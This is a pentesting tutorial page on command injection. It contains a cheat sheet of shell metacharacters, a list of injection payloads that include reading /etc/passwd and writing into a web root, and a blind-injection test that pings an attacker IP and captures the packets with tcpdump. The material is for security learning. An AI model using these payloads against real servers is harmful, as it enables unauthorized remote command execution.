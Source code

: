 ```yaml
---
description: ;ping+-c+10.10.10.10+1#
---
```


# Command Injection

Command Injection is a critical vulnerability that results in attackers being able to directly manipulate and control a server remotely. This exploit abuses the lack of input validation in a server through some special characters inputted by attackers.

<figure><img src="../.gitbook/assets/image (280).png" alt=""><figcaption><p><em>Taken from PortSwigger Web Security Academy</em></p></figcaption></figure>

## Exploitation

In order to exploit this properly, we need to understand some special characters and what they do within an application.

{% code overflow="wrap" %}
```bash
# --> comment
$() --> expression in bash that evaluates the text inside bracket as commands
; --> used to chain commands together e.g. id ; whoami would execute 2 commands at once
| --> pipe used to pass output from one command to another e.g. whoami | echo
& --> Bitwise AND Operator
&& --> Logical AND Operator
|| --> Logical OR Operator
%0a --> URI encoded \n character, meaning enter is pressed on keyboard
> --> redirect output somewhere
< --> send file content as an input
' --> escape quotes where necessary
${IFS} --> means " " or space character, useful when there is strict WAF checking
```
{% endcode %}

Here are some possible payloads for testing whether Command Injection Works:

{% code overflow="wrap" %}
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2nd
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not execute but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
{% endcode %}

Generally, if we can view the output of our command, it's very easy to see if we have Command Injection.

<figure><img src="../.gitbook/assets/image (276).png" alt=""><figcaption><p><em>Look at Cmd parameter</em></p></figcaption></figure>

### Blind Injection

Sometimes, we cannot view the output of whatever command we injected. As such, we need to use other commands to 'force' an output.

What I like to use is a `ping` command. When we ping something, what we are really doing is sending something called an **Internet Control Message Protocol (ICMP) packet** to another host. If the host replies with another ICMP packet, then the ping works and the host is alive.

We can test out our Command Injection using this command.

```bash
ping -c 1 10.10.10.10
# if URL encoding needed
ping+-c+1+10.10.10.10
```

What this does is make the machine send **1** ping packet to another host. We can set up a listener on our attacking machine using `tcpdump` on the network interface we expect to receive the packet on and to only respond if ICMP packets are received.

Below is an example of a succesful exploit script being used to execute the `ping` command. We can see the received PING packet from the second terminal window.

<figure><img src="../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>
